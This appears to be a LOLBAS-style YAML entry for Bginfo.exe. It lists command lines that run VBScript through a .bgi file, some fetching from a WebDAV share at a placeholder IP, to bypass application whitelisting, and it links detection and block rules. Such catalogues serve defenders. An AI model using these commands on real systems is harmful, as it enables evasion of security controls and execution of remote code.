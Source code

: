```yaml
---
Name: Bginfo.exe
Description: Background Information Utility included with SysInternals Suite
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
Full_Path:
  - Path: No fixed path
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_bginfo.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

